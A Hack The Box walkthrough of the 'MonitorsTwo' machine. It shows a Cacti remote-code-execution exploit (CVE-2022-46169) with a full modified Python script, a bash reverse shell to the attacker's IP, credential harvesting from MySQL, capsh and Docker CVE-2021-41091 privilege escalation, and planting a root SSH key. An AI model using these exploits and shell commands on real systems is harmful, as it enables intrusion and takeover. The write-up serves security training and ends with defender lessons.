










MonitorsTwo
Linux, Easy, Released 2023-04-29

INTRODUCTION
Upon initial enumeration, the website hosted on MonitorsTwo is something called "Cacti", which appears to be a run-of-the-mill website management panel. However, some searching reveals that it is an open-source tool, which gives more detail about its functionality:
Cacti is a complete network graphing solution designed to harness the power of RRDtool's data storage and graphing functionality providing the following features:
- Remote and local data collectors
- Device discovery
- Automation of device and graph creation
- Graph and device templating
- Custom data collection methods
- User, group and domain access controls
Warning: This walkthrough contains many spoilers. No spoilers will be unexpected if you read the walkthrough sequentially.
MonitorsTwoINTRODUCTIONRECONFOOTHOLDRCE from SearchsploitPoC by @sAsPeCt488Upgrading the ShellUSER FLAGwww-dataContents of cacti.sqlMySQLSNMPcapshROOT FLAGmarcusCVE-2021-41091EXTRA CREDITSSH as rootPostmortem: RCE from SearchsploitLESSONS LEARNEDAttackerDefender
RECON
To begin the box, I ran an nmap port scan. I set RADDR to my target machine's IP, and scanned it as follows:
sudo nmap -p- -O --min-rate 5000 $RADDRxxxxxxxxxxHost is up (0.17s latency).Not shown: 64348 closed tcp ports (reset), 1185 filtered tcp ports (no-response)PORT STATE SERVICE22/tcp open ssh80/tcp open http
Then I ran a script scan on those two ports:
xxxxxxxxxxnmap -sV -sC -n -Pn -p 22,80 $RADDRxStarting Nmap 7.93 ( https://nmap.org ) at 2023-06-17 17:53 IDTNmap scan report for 10.10.11.211Host is up (0.19s latency).PORT STATE SERVICE VERSION22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)| 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)|_ 256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)80/tcp open http nginx 1.18.0 (Ubuntu)|_http-title: Login to Cacti|_http-server-header: nginx/1.18.0 (Ubuntu)Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Next, I did vhost and subdomain enumeration. Neither yielded any results. I did some banner grabbing:

Since there were no results to vhost / subdomain enumeration, I added monitorstwo.htb to /etc/hosts file and proceeded with directory enumeration. I opened up Burp, added http://monitorstwo.htb to the Burp scope, and ran feroxbuster:
xxxxxxxxxxDOMAIN="boxname.htb"WLIST="/usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt"echo "$RADDR $DOMAIN" | sudo tee -a /etc/hostsferoxbuster -w $WLIST -u http://$DOMAIN -A -d 1 -t 100 -T 4 --burp -f --auto-tune --collect-words --filter-status 400,401,402,403,404,405
Results showed that it's actually a pretty big target, with lots of pages and documentation included. Here's just the root directory, in Burp:

Knowing a bit about the layout of the site, I decided to check it out in my browser for a bit. I spent some time looking through the /docs in some detail, trying to find some hints about default credentials or about the server's configuration. From index.php we can see that the server is running Cacti v1.2.22
FOOTHOLD
RCE from Searchsploit
While I did find out a bit about how Cacti works, I didn't see any big obvious hints (the kind that one might expect on an Easy box on HTB). Instead, I turned to searchsploit:

That looks promising! Let's try it out:

Hmm... Nope. But why didn't it work? I'll ready though the exploit code and try to understand how it works:
xxxxxxxxxxless 51166.pyHere is the exploit itself:

Ok, so the exploit works by sending a reverse shell to remote_agent.php, enumerating though various local_data_id/host_id combinations until it fints the right one. I can already see a problem with how I ran the exploit, but in case it's not obvious, this is how the exploit is called:

I clearly misinterpreted what the author meant as "remote" IP and port. I'll do as they suggest, opening a nc listener and using my tun0 IP address and the listener's port. Also, I'll set a new firewall rule for the listener.
I'm trying to get out of the script-kiddie habit of always using 4444 for my initial reverse shell and 1337 for my root shell. Instead, I'll use some random port numbers. I'll also open up one for an HTTP server, which I often use for transferring files from my attacker machine to the target. 
You know what? There is actually a LOT wrong with this exploit. 😳 I went through all the following, all to no avail:
- Corrected the shebang
- Added exception handling to the exploit, to keep running even when it inevitable encounters a
TimoutError - Parameterized the GET request timeout
- Re-wrote it to be multi-threaded, because even a timeout of 1s would have taken three hours to enumerate.
🤔 That looked like the right exploit. Oh well, the author did credit the CVE in the comments at the beginning of the script, so instead I'll just search for CVE-2022-46169 online and see if anyone has written a different PoC script.
PoC by @sAsPeCt488
Turns out there are quite a few! This github repo looks pretty good, and clearly uses the same core idea. I'll try it out:
Note that this exploit does not pop a shell, it just provides a single command of RCE. So you can only tell if it worked by creating a reverse shell yourself, or perhaps standing up a webserver and having it wait for a wget/curl request from the target, etc.
I chose to go directly to a reverse shell, because that's how the previous exploit code in
51166.pyworked.
xxxxxxxxxxpython3 CVE-2022-46169.py -c "bash -c 'exec bash -i &>/dev/tcp/10.10.14.2/32476 <&1'" --n_host_ids 100 --n_local_data_ids 100 http://$RADDRAnd... voila! 🎉 We have a reverse shell:

🐒 This got me wondering why the previous script didn't work.
Doing a quick comparison of the code, it looks like
51166.pymixed up theX-Forwarded-Forheader with the address of the Cacti server. I corrected this in my modification of51166.pyand tried re-running it, but still no luck: no reverse shell.I'll have to take a more in-depth look at this later.
Upgrading the Shell
I originally learned this procedure from this blog post. It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this.
Starting with the "dumb" shell, change from sh to bash:
xxxxxxxxxxperl -e 'exec "/bin/bash"'You'll have a better prompt now, but still no tab completion and still no ability to use things like
lessorvi. Let's fix that:
xxxxxxxxxx[ctrl+z]stty raw -echo; fg[enter] [enter]export TERM=xterm-256colorThe shell will be backgrounded, then enable echo mode with stty, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours 🌈.
USER FLAG
www-data
After entering a system as a new user, it's prudent to see what that user is able to do. I've landed on a pretty good strategy for this: my User Enumeration Strategy (Linux). For more detail on that, go read through the strategy. For this walkthrough, I'll stick to just going through notable enumeration results:
The only important users on the box are
www-dataandroot. However,www-datadoesn't have a home directory, so I wonder who holds the user flag?Can't run
sudo -l. It seems thatsudoisn't even on the box..?Running
envreveals several odd environment variables:- GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
- APACHE_ENVVARS=/etc/apache2/envvars
- Several references to C code, mentions of the compiler and compilation flags.
The root directory contains a conspicuous file:
entrypoint.sh. Inside it, it shows a server startup routine, including a hint at initial database credentials root : root for MySQL. It also mentions reading in initialization data from the very, very juicy-looking script/var/www/html/cacti.sql(examined later). In terms of useful tools, the box only has
curl,wget,perl, andphpThe box doesn't even have
netstatorlsof, so I can't really check for listening processes 🤕 If it even hadnetcat, I could stand up a listener, set up a tunnel to that listener, and run nmap via that tunnel to discover locally-listening services. But nope...linpeas pointed out an SUID binary,
capsh, that might be useful for PE:  It also found a password in a .php file. Probably not important:
Contents of cacti.sql
Wow this file is really the jackpot. It is a database initialization script, containing all tables and all initial data inserted into those tables. Some important things I found right away were...
... When I searched for 'auth' I discovered some user credentials:

Those creds are admin : 21232f297a57a5a743894a0e4a801fc3 and guest : 43e9a4ab75570f5b
... Also discovered when grepping for 'auth' were some SNMP credentials:

This shows the SNMP creds are admin : baseball. Also useful is the snmp community: 'public', and that it uses SNMPv2.
It's worth noting that SNMPv2 could have been brute-forced for this credential. But now we also know the SNMP Auth protocol and SNMP priv protocol (MD5 and DES respectively.)
MySQL
I first tried the credentials obtained directly from entrypoint.sh, root : root. I logged in exactly the same as the script did:
xxxxxxxxxxmysql --host=db --user=root --password=root cactiAnd I was met with a valid prompt:

However, I feel like all I was supposed to grab from here is the credentials from the database cacti table user_auth, which I already have from the cacti.sql script. I'll check that they're still there and valid:

Oh? how about that. Not only is the admin password now hashed, we have an additional user named marcus.
Those hashes are... admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC guest:43e9a4ab75570f5b marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
Since those have changed since cacti.sql ran, I'll also check those SNMP credentials:

Ok, those haven't changed. But it looks like there is now an admin : baseball for snmp_community 'private' as well.
Remember: every time you get new credentials, think about what services you've encountered that require a login. Try all of those services against all of the credentials you've obtained so far.
In this box, we've identified that there are probably three services that have some kind of login: SSH, SNMP, and the webserver.
Given the nature of the database, I think the creds from table user_auth are most likely for the webserver, and admin : baseball is most likely just for SNMP. Good to try all, in case of credential re-use, but I'll begin by checking those creds against their likely services.
First, the webserver:
I tried admin : 21232f297a57a5a743894a0e4a801fc3 and guest : 43e9a4ab75570f5b. No success with either. What about the hashes we just obtained?
xxxxxxxxxxhashid$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
xxxxxxxxxxAnalyzing '$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC'[+] Blowfish(OpenBSD)[+] Woltlab Burning Board 4.x[+] bcrypt
Let's try cracking these hashes:

OK, now I know my laptop isn't that great... but apparently cracking these hashes, even just using rockyou, is going to take a week and a half?!

I'll leave john running while I continue, but for now I think it's best if I explore other options...
Let's turn this problem upside-down. We already have root access to the database, why not just insert a new credential?
So instead, I'll copy the root record and just give it a new username and password. Probably all the permissions will be the same. First things first, we'll need a new password hash. Thankfully, I found a website to do this:

It looks like the second part of the hash, which is usually the salt, actually identifies the number of rounds of the algorithm. To match the other entries from the database, I chose 10 rounds.
Unfortunately, copying a record but changing a couple fields is not actually the simplest thing to do in SQL (if you don't want to list every column manually). Invoking some SQL-fu, I'll select the admin record into a new table, update a couple values, then select it back into user_auth:
xxxxxxxxxxCREATE TABLE user_auth_temp AS SELECT * FROM user_auth WHERE id=1;
UPDATE user_auth_temp SET id=5, username="jimbo", password="$2a$10$nZP/YV02tUmZ.TPTIwiCeeh23BPmcad5BfiYlp46ItkHTbp/OGPsa";
INSERT INTO user_auth SELECT * FROM user_auth_temp;
DROP TABLE user_auth_temp;Just to check my work:

OK, looks good. I'll try signing in with credentials jimbo : password

Well, partial success. We now know that this login checks the user_auth table, but unfortunately the new user I created is not in the correct groups or something. Surely this can be fixed using only the database...
xxxxxxxxxxMySQL [cacti]> select * from user_auth_group_members;Empty set (0.001 sec)
MySQL [cacti]> select * from user_auth_group_perms;Empty set (0.022 sec)
MySQL [cacti]> select * from user_auth_group_realm;Empty set (0.000 sec)
MySQL [cacti]> select * from user_auth_perms;Empty set (0.003 sec)
MySQL [cacti]> select * from user_auth_realm;+----------+---------+| realm_id | user_id |+----------+---------+| 1 | 1 || 2 | 1 || 3 | 1 || 4 | 1 || 5 | 1 || 7 | 1 || 8 | 1 || 9 | 1 || 10 | 1 || 11 | 1 || 12 | 1 || 13 | 1 || 14 | 1 || 15 | 1 || 16 | 1 || 17 | 1 || 18 | 1 || 19 | 1 || 20 | 1 || 21 | 1 || 22 | 1 || 23 | 1 || 24 | 1 || 25 | 1 || 26 | 1 || 27 | 1 || 28 | 1 || 101 | 1 || 1043 | 1 || 7 | 3 |+----------+---------+30 rows in set (0.001 sec)Aha! Ok, so my user is not part of the correct realms. Let's fix that.
xxxxxxxxxxINSERT INTO user_auth_realm (realm_id, user_id) SELECT realm_id, 5 FROM user_auth_realm WHERE user_id=1;
Now that jimbo is assigned to the correct realms, I'll try logging in again:

Bingo! We're in to the Cacti web interface, logged in as jimbo. Taking a peek at some of the logs, it looks like I was a little noisy trying to log in 😅

Unfortunately, I don't see a flag anywhere inside Cacti. The only notable thing I found was the security settings section:

SNMP
Thankfully, this is a protocol I know about from personal experience. It is often used for management of devices across a network. It can be used for data collection, device configuration, and checking the status of equipment. This Hacktricks page goes into much more detail about what can be done just from the CLI to explore SNMP. Firstly, do we have any tools available?
xxxxxxxxxxwww-data@50bca5e748b0:/tmp/Tools$ which snmpbulkwalk snmpwalk snmp-check/usr/bin/snmpbulkwalk/usr/bin/snmpwalkExcellent, let's try enumerating the available info:

🤔 Hmm... nothing. Maybe I'll revisit SNMP if I'm desperate. For now though, it looks empty.
capsh
I've checked the database, the web interface, and even SNMP... I feel like I'm running out of options. My last lead is this weird SUID binary that linpeas highlighted, called capsh.
First of all, what is capsh even for? It looks like it indirectly assigns capabilities to processes 🙄
* momentarily sobs into the man pages *
I checked the man pages and tried a few things:
xxxxxxxxxxcapsh --user rootcapsh --user root /bin/bashcapsh --
That last one actually produced a shell, but only under www-data, so I'm probably close. I'll check GTFObins to see if there is an easy way to escalate privilege from this.
Perfect. I was pretty close, I just hadn't tried the right flags. I needed to provide user and group flags, then use the -- shell operator:
xxxxxxxxxxwww-data@50bca5e748b0:/tmp/Tools$ capsh --gid=0 --uid=0 --
There we go! Houston, we have a root shell 🎉

Alright, we didn't find a user flag earlier. Perhaps only root had access to both? Let's look for those flags again:

What?! Still no flags? This is rough 😞
Now that I'm a new user, I'll repeat my User Enumeration (Linux) strategy. These are the notable results:
- Linpeas reported that I'm inside a docker container, and already the root user of that docker container.
- root has write access to any location.
- Nothing else meaningful.
The relevant Hacktricks article suggested that, if I have the right capabilities set, I might be able to escape the docker container.

🚨 ALERT ALERT ALERT john just cracked a hash!!! We now have a new credential. And, surprise surprise it is NOT a user from this box (a user from within this docker container!):

The credential is marcus : funkymonkey. That gives me a lot of hope. First thing to try then is SSH:

YES!! Finally. And of all things, we have mail! Let's check that out first:
xxxxxxxxxxcat /var/mail/marcusxxxxxxxxxxFrom: administrator@monitorstwo.htbTo: all@monitorstwo.htbSubject: Security Bulletin - Three Vulnerabilities to be Aware OfDear all,We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.Best regards,AdministratorCISOMonitor TwoSecurity Team
Interesting. Let's look at each of those vulnerabilities:
- CVE-2021-33033
Checking
uname -ashows that we are using linux kernel 5.4.0-147-generic. So this might be vulnerable. - CVE-2020-25706 We already know Cacti is at version 1.2.22, so it is not vulnerable.
- CVE-2021-41091
Running
docker versionreveals that the box has docker20.10.5+dfsg1. It might be vulnerable.
OK. Before I dive too deep into that, let me see if we can finally get a user flag 🙏
xxxxxxxxxxcat /home/marcus/user.txtSweet success. Flag obtained. 🍒 🍒 🍒
ROOT FLAG
marcus
Before I check those CVEs that were hinted at in /var/mail/marcus, I'll do a quick enumeration of the user. Below are any useful results from the user enumeration:
The box has two notable users:
marcusandrootmarcushas access tonc,netcat,curl,wget,perl, andtmuxnetstat revealed some listening processes:  I'll be sure to look into ports 8080 and 34731
linpeas (Section "Processes, Cron, Services, Timers & Sockets") revealed what might be on 8080 is just the docker container's port 80:
xxxxxxxxxx_ /usr/sbin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.19.0.3 -container-port 80
Running curl localhost:8080 from the target box confirms this fact: the result is the Cacti login page.
There are no obvious leads from user enumeration. It is probably time to switch back to that mysterious message at /var/mail/marcus.
CVE-2021-41091
Some quick searching about this CVE landed me at the NIST National Vulnerability Database page describing the CVE. In short, the vulnerability exists in older versions of Moby (Docker Engine). In those older versions, the overlay filesystem used by docker was overly permissive. Sometimes when you run docker containers, you set up volumes where both the host machine and the docker container both have access to the same directory, setting up a mapping between the two of them. This is often in the host system's /var/lib/docker directory.
If the
marcususer had privileges to use various docker commands, we could read from the docker configs what mapping exists for the overlay filesystem. However, sinceoverlayfsis a filesystem mounted into the current filesystem, we can see it by checkingdf -h:

A little more searching online shows that a github user @UncleJ4ck has already made a PoC for this CVE. Let's try using it. The instructions are simple:
- From within the docker container, as root, set the
setuidbit on/bin/bash - On the host system, download the PoC code and run it.
Since the box is not connected to the internet, I'll need to download the PoC onto my attacker box and serve the code to the target box (using that same python webserver):
From the webserver's directory on my attacker box:
xxxxxxxxxxgit clone https://github.com/UncleJ4ck/CVE-2021-41091.gittar -czvf CVE-2021-41091.tar.gz CVE-2021-41091python3 -m http.server 8000Then from the target box, via SSH as user marcus in any writable directory:
xxxxxxxxxxwget http://10.10.14.2:8000/CVE-2021-41091.tar.gztar -xzvf CVE-2021-41091.tar.gzrm CVE-2021-41091.tar.gzcd CVE-2021-41091 && exp.shUnfortunately, it didn't create a shell. However, it did print out some instructions:

So, I changed into that directory and tried running ./bin/bash -p:

🎉 Nice! a root shell! The euid is now set to root.
I've never seen that kind of privilege escalation before, but it was quite easy! This is definitely going on my list of things to check for whenever I'm in a docker container ✅
Now just simply cat out the flag to finish the box.
xxxxxxxxxxcat /root/root.txt
EXTRA CREDIT
SSH as root
It's always great to pop a root shell, but in this case we only have the euid set to root. And as a result, I'm limited to just one terminal pane within tmux. I know I could easily privilege escalate in the same way on other panes, but for sake of practice I'll try planting a new SSH key as root, and logging in through that - that way I can have a whole tmux session as root.
First, I'll generate a new RSA key on my attacker box. I've used the passphrase 'password':
xxxxxxxxxxssh-keygenxxxxxxxxxxGenerating public/private rsa key pair.Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsaEnter passphrase (empty for no passphrase):Enter same passphrase again:Your identification has been saved in ./id_rsaYour public key has been saved in ./id_rsa.pubThe key fingerprint is:SHA256:5dgcDwPs8DrDVKnxmGEmXiFxt37r/M0FztaT78Qrn8k kali@kaliThe key's randomart image is:+---[RSA 3072]----+| o.ooo. || .oB.+o || . = %. = || . =.+* = || o .S = . . || = . . o +.|| o . +o=|| o =.o*|| o.. =Eo|+----[SHA256]-----+
Then I'll lock down the permissions on the key. Just for practice I'll also base-64 encode it (so that the whole public key could be copy-pasted through a dumb shell, if need be):
xxxxxxxxxxchmod 700 id_rsabase64 -w 0 id_rsa.pub > id_rsa.pub.b64cat id_rsa.pub.b64 [copy to clipboard]Now, on the target machine (in the euid root shell), echo the public key into /root/.ssh/authorized_keys:
I've omitted the middle part of the pub key so that it can fit on one line, for demonstration purposes
xxxxxxxxxxecho "c3NoLXJz...saQo=" | base64 --decode >> /root/.ssh/authorized_keys
Then, just log in as root using SSH, using id_rsa and the passphrase used to generate the key:


🤗 Ah yes, so roomy and comfortable...

Postmortem: RCE from Searchsploit
So why was it that 51166.py did not work as RCE? I've made series of modifications to the original script, and finally got it to work. With each step, I got closer and closer to the PoC code from @saspect.
Below is a summary of the changes I made. Although my eventual success with modifying the script could have been due to any number of the following changes, the final change was using the params property of the httpx.Client object.
- Corrected the
X-Forwarded-Forheader to always be127.0.0.1instead of the target address (the address of Cacti) - Added threading (one thread for each
host_id) to make it go really fast. - The
local_data_ids[]parameter actual accepts a list structure. Instead of using a single number as this parameter, I passed it a 100-element list ofrange(0,100). - Made the RCE command an argument to the program, instead of a hardcoded reverse shell.
- Changed the way that
poller_idcontains the payload: swapped out the '1' for a semicolon:'; /bin/sh -c "{cmd}"' - Used the
paramsproperty of thehttpx.Clientobject, instead of embedding the params into the URL.
Here is the code I ended up with, 51166-new.py:
xxxxxxxxxx#!/usr/bin/env python3
import randomimport httpx, urllibfrom threading import Thread
class Exploit: def __init__(self, url, proxy=None, rs_host="",rs_port=""): self.url = url self.session = httpx.Client( headers={"User-Agent": self.random_user_agent()}, verify=False, proxies=proxy ) self.rs_host = rs_host self.rs_port = rs_port
def exploit(self, host_id, timeout_time): local_cacti_ip = self.url.split("//")[1].split("/")[0] headers = { 'X-Forwarded-For': '127.0.0.1' } payload = f'; /bin/sh -c "{cmd}"' local_data_ids = [x for x in range(0, 100)] params = { 'action': 'polldata', 'host_id': host_id, 'poller_id': payload, 'local_data_ids[]': local_data_ids } url = f"{self.url}/remote_agent.php" try: r = self.session.get(url, params=params, headers=headers, timeout=timeout_time) print(f'\n\n\tSUCCESS: using {r.request}\n\n') print(f"{r.status_code} - {r.text}" ) except Exception as e: print(f'{e}')
def random_user_agent(self): ua_list = [ "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0", ] return random.choice(ua_list)
def parse_args(): import argparse argparser = argparse.ArgumentParser() argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)") argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True) argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True) argparser.add_argument('-c', "--command", help='Command', dest='cmd') return argparser.parse_args() def exploit_task(url, remote_ip, remote_port, host_id, timeout): e = Exploit(url, None, remote_ip, remote_port) e.exploit(host_id, timeout)
args = parse_args()cmd = args.cmd
def main() -> None: # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL threads = [] timeout = 0.5 # GET timeout, in seconds for n in range(0,100): t = Thread(target=exploit_task, args=(args.url, args.remote_ip, args.remote_port, n, timeout)) threads.append(t) t.start() for t in threads: t.join()
if __name__ == "__main__": main()I hope that helps somebody! Regardless, it was good Python practice 🐍
LESSONS LEARNED
Attacker
- In the Foothold stage, as soon as you identify what service you're trying to get into, check for existing exploits. Especially for Easy boxes, this can be a huge time-saver.
- Don't get too fixated on the first exploit you find. If one isn't working, go ahead and check the code to see if you made a mistake in using it (many exploits are poorly document and require a bit of reading source code). But if it seems like everything should be working, search for a different exploit for the same vulnerability and try that one.
- Patience is a virtue. When I first saw the estimate from john about how long it would take to enumerate rockyou with blowfish hashing, I immediately assumed it was the wrong way to go (after all, cracking hashes is seldom the way to go on HTB). I explored every other reasonable lead on the box before I returned, in desperation, to cracking the hashes. In the end, it only took a few minutes because it was such a weak password.
- If linpeas highlights something, that should be the very first thing you check. I ignored checking the
capshprivilege escalation for too long. Perhaps if I had done that first, I wouldn't have gone down the two rabbit-holes of SNMP and gaining access to Cacti.
Defender
- Keep your software updated. This is especially important for public-facing software - on this box, that was Cacti.
- Disable password-based authentication for SSH. Key-based authentication (with an encrypted key of course), is only infeasible if you don't know which machines will need to connect to the box. I would argue that if you don't know who needs to connect to the box, it is NOT a candidate for SSH.
- Apply security patches. Marcus had already been informed of three CVEs that were on the system, but had only patched one of them. Fixing CVE-2021-41091 would have been just a simple
apt upgradeand only caused a few seconds of server downtime. - Use strong passwords accompanied by a good hashing algorithm. Blowfish / bcrypt is pretty good, but the marco user had a very weak password, within the top 1% of rockyou. If they had a stronger password, it would have taken a very long time to crack the hash.
Thanks for reading
🤝 🤝 🤝 🤝 @4wayhandshake